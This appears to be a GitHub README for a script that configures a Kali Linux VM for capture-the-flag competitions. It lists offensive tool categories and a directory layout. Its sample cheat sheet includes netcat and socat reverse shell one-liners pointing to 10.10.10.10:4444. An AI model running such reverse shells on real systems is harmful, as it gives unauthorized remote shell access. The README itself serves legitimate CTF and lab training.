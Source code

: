 # 🛡️ Kali Linux CTF VM Setup

Automated setup for a Kali Linux Virtual Machine optimized for Capture The Flag (CTF) competitions.

> **Date:** June 19, 2025  
> **Tested On:** Kali Linux 2025.x  
> **Author:** Fred  
> **License:** MIT

## 📋 Overview

This project provides an automated setup script that configures a Kali Linux VM specifically for CTF competitions. It installs essential tools organized by category, creates a structured directory layout, configures useful aliases, and applies security enhancements.

The modular approach allows you to selectively install only the tools you need, reducing bloat while ensuring you have everything required for various CTF challenges.

## 🚀 Key Features

- **Modular Installation**: Choose which tool categories to install
- **Organized Structure**: Predefined directory layout for CTF organization
- **Essential Tools**: Comprehensive toolset for all major CTF categories
- **Security Hardening**: Firewall configuration and service management
- **Customization**: Optional enhancements like Zsh, Nerd Fonts, and ProxyChains
- **Logging**: Setup progress logged to `/root/ctf_setup.log`
- **Verification**: Automated verification of installed tools
- **Snapshot Ready**: Prepared for VM snapshot creation

## 📦 Installation

1. **Download the Script**
   ```bash
   wget -O ctf_setup.sh https://raw.githubusercontent.com/TheRealFredP3D/Kali-VM-Setup/main/install.sh
   ```

2. **Make it Executable**
   ```bash
   chmod +x ctf_setup.sh
   ```

3. **Run as Root**
   ```bash
   sudo ./ctf_setup.sh
   ```

The script will prompt you to install optional components.

## 🧰 Tool Categories

The script installs tools in the following categories:

- **Core Tools**: nmap, netcat, tcpdump, wireshark, git, python3, etc.
- **Reconnaissance**: gobuster, ffuf, amass, whatweb, nikto, etc.
- **Web Exploitation**: burpsuite, sqlmap, wfuzz, zaproxy, wafw00f, etc.
- **Reverse Engineering**: ghidra, radare2, gdb, peda, binwalk, etc.
- **Forensics**: foremost, sleuthkit, steghide, stegosuite, etc.
- **Password Cracking**: john, hashcat, hydra, medusa, etc.
- **Exploit Development**: metasploit-framework, pwntools, ropper, etc.

## 🗂️ Directory Structure

The script creates an organized directory structure at `/root/CTF/`:

```
CTF/
├── binaries/      # Binary exploitation challenges
├── crypto/        # Cryptography challenges
├── forensics/     # Forensics challenges
├── notes/         # Notes and cheat sheets
│   ├── notes.md
│   └── cheatsheet.md
├── pwn/           # Pwn challenges
├── reversing/     # Reverse engineering challenges
├── tools/         # Additional tools and wordlists
├── web/           # Web exploitation challenges
└── writeups/      # Challenge writeups
```

## ⚙️ Optional Enhancements

You'll be prompted to install these optional components:

- **Zsh & Oh My Zsh**: Enhanced shell with plugins
- **Nerd Fonts**: Improved terminal font support
- **ProxyChains**: Network proxy configuration
- **Visual Studio Code**: Code editor
- **Docker Testbeds**: DVWA and Vulnix for practice
- **Passwordless Sudo**: Convenience setting for isolated VMs

## 🔒 Security Features

- UFW firewall with outbound rules for HTTP, HTTPS, DNS
- Disabled unnecessary services (bluetooth, cups)
- Optional passwordless sudo for isolated environments
- Increased file watch limits for better performance

## ✅ Verification

The script automatically verifies installation of key tools:
- nmap, burpsuite, ghidraRun, sqlmap, john
- SecLists wordlists

## 💾 Post-Setup Steps

1. Shut down the VM
2. Create a snapshot called `CTF Base`
3. Start solving challenges on:
   - [TryHackMe](https://tryhackme.com/)
   - [Hack The Box](https://hackthebox.com/)
   - [PicoCTF](https://picoctf.org/)

## 🔧 Troubleshooting

| Issue | Solution |
|-------|----------|
| Network not working | Check VirtualBox/VMware adapter settings |
| Script fails | See `/root/ctf_setup.log` |
| Tool missing | Try reinstalling: `sudo apt install -y <tool>` |
| Fonts not applied | Run `fc-cache -fv` and restart terminal |
| Zsh not loaded properly | Run `source ~/.zshrc` as user |

## 📝 Sample Cheat Sheet

Example from `cheatsheet.md`:

```markdown
## Reverse Shells
- Netcat: `nc -e /bin/bash 10.10.10.10 4444`
- Socat: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444`

## Common Commands
- Nmap: `nmap -sC -sV -Pn <target>`
- Gobuster: `gobuster dir -u <url> -w ~/tools/SecLists/Discovery/Web-Content/common.txt`
```

## 📬 Customization

This setup can be extended into:
- Ansible or Docker-based reproducible labs
- Versioned GitHub repository
- Headless setup flow with install flags

Happy Hacking! 🐱‍💻